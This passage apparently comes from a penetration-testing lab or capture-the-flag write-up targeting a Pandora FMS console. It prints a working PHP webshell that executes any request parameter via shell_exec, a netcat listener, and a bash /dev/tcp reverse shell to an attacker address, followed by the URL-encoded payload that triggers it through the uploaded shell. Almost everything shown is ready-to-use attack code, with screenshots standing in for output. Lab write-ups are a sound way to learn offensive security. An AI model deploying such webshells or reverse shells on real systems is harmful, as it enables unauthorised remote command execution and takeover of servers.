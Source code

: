 ### 5.1 File Upload for RCE

Access File Manager, upload PHP webshell:

```php
<?php
 echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

![](screenshots/cmd_php.png)

Uploaded successfully:

![](screenshots/pandora_console_cmd_php.png)

Execute commands via browser:

![](screenshots/pandora_console_web_console.png)

Reverse shell setup:

```bash
nc -nlvp 443
bash -c "bash - >& /dev/tcp/10.10.14.10/443 0>&1"
```

Final payload (URL-encoded):

```bash
http://127.0.0.1/pandora_console/images/0.Pwn3d/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261"
```
